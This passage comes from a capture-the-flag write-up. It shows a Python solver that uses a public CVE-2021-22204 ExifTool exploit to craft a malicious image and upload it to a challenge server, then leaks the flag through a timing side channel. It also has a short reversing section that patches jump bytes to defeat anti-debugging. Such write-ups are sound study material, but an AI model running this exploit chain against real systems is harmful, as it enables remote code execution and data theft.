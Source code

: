 ```py
    )
    print(cmd)

    # Craft the image using a CVE PoC found online
    # Download the exploit from here, or do it by hand
    # https://github.com/UNICORDev/exploit-CVE-2021-22204
    os.system(f"python ./cve-2021-22204.py -c '{cmd}'")

    # Send a request computing the time. We will use time to exfiltrate a single character
    # of the flag at a time
    start = time.time()
    r = requests.post(
        "http://34.85.58.100:11008/upload", files={"file": open("./image.jpg", "rb")}
    )
    end = time.time()
    elapsed = end - start

    # Check if we got a match with one of our expected characters.
    # It may happen that this script fails (finds the wrong letter) due to network latency,
    # but it did not happen in practice
    print(f"Elapsed: {elapsed}")
    try:
        char = "0123456789abcdef"[int(elapsed)]
        print(f"Found: {char}")
        if char in "1234567890abcdef}":
            flag += char
    except:
        flag += "?"
        print("Rejected!")
    i += 1
```

# Reversing

## Fishing

Watching the executable with `Ghidra` we can see that it has some anti-disassemble techniques that prevent Ghidra to fully disassemble some functions so when we find them we can just manually tell `ghidra` to disassemble them again by pressing `D` on the starting address and then `F`.

We can also see that the executable gives an error message when using a debugger which can be bypassed patching the file.

```
140001b49 74 52           JZ        LAB_140001b9d
to
140001b49 75 52           JNZ        LAB_140001b9d

140001c7a 75 0a           JNZ         LAB_140001c86
to
140001c7a 74 0a           JZ         LAB_140001c86


140001c84 74 52           JZ        LAB_140001cd8
to
140001c84 75 52           JNZ        LAB_140001cd8
```
